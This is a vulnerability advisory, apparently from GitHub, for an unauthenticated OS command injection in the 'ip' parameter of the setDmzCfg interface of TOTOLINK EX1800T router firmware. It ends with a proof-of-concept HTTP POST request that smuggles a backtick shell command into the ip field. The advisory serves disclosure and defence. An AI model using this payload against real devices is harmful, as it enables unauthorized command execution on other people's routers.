 # OS Command Injection 03 setDmzCfg->ip

## TOTOLINK EX1800T OS Command Injection Vulnerability

Vendor：Totolink

Product：EX1800T

Firmware：https://www.totolink.net/home/menu/detail/menu\_listtpl/download/id/223/ids/36.html

Affected Version：V9.1.0cu.2112\_B20220316

Class：OS Command Injection

Summary：TOTOLINK EX1800T V9.1.0cu.2112\_B20220316 is vulnerable to unauthorized arbitrary command execution in the ‘ip’ parameter of the setDmzCfg interface of the cstecgi .cgi. This vulnerability don't need to login, due to insufficient input validation and sanitization, an attacker can exploit this flaw by injecting malicious OS commands through the ip field. Successful exploitation allows the attacker to execute any command.

## Vulnerability details

In the TOTOLINK EX1800T V9.1.0cu.2112_B20220316 firmware has a Command Injection Vulnerability in `setDmzCfg`​ Interface, `ip`​ variable recevies the ip parameter:

![image](assets/image-20250305141426-l6a07g4.png)

when `enable`​ 's value equal 1,ip will be passed to the `Uci_Set_Str`​ function for processing. However `Uci_Set_Str`​ function will final call `execv`​ and the parameter contains the `ip`​'s value

In `Uci_Set_Str`​:

![image](assets/image-20250305134119-m70q2q6.png)

the `a4`​ parameter we can pass by `ip`​, here will call `snprintf`​ function to splice the strings to `v12`​，and call `CsteSystem`​, this will call execv function and trigger OS Command Injection

![image](assets/image-20250305134440-eim7vg9.png)

## POC

```markdown
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.41.184:8885
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset:utf-8
Content-Length: 97
Origin: http://192.168.41.184:8885
Connection: close
Referer: http://192.168.41.184:8885/page/index.html?timestamp=1741064642073

{
"enable":"1",
"ip":"192.168.1.1`pwd>>../ip.txt`",
"token":"","topicurl":"setting/setDmzCfg"
}
```

![image](assets/image-20250305141309-c1pkyd5.png)

![image](assets/image-20250305141314-h3i1l7b.png)
